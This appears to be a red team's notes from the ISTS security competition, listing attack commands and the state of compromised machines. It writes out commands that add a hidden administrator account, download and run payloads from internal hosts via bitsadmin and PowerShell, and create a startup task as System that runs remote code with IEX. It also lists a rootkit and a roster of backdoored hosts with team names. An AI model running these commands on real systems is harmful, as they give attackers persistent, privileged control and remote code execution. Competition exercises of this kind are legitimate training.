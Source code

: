 
## commands
net user scoringserver jAofsGGdfndsfd$@#$792hcsjaoem12 /add
net localgroup Administrators scoringserver /add

cmd.exe /c "bitsadmin /transfer myjob /download /priority high http://10.2.2.60 c:\\a.exe&start mess.exe"

PowerShell (New-Object System.Net.WebClient).DownloadFile('','mess.exe');Start-Process ''

schtasks /create /tn OfficeUpdaterB /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onstart /ru System


## Backups

### In-Progress
- Jenkins - Vega (Charlton)

### Finished



## Bad users (from Linux servers)
* administrator


## RPi IR
* Reptile rootkit (LKM Linux rootkit by F0rb1dd3n)
* Heaven's Door port-knocking backdoor using ICMP and UDP
* Client to access Heaven's door backdoor
* Reptile r00t module, gives root permission using hooked setreuid function
* Doesn't look to have been installed
* 


## ISTS Infrastructure (Important )
```
Callback Box
    - Ip: 
    - Port: 
    - Windows Port: 31337
    - Linux Port: -----
```

## Backdoored Boxen~
- 10.2.11.10 (blocked?)
- 10.2.1.60 (no)
- 10.2.3.60 (no)
- 10.3.10.10 (owned - team10 pegasi root : 11 ) (lockout)
- 10.3.1.10 (no)
- 10.3.11.10 (yes - team11 pegasi root : 12) (no route)
- 10.3.3.10 (yes - team3 pegasi root : 13) (no connect)
- 10.3.4.10 (yes - team4 pegasi root : 15) (no route)
- 10.3.6.10 (no)
- 10.3.8.10 (owned team8 pegasi - root : 14) **try again**
- 10.3.9.10 (0wned team9 persei - root : 10)
- 10.2.3.10 (owned, BSD team3 vega - root : 10) (working!)
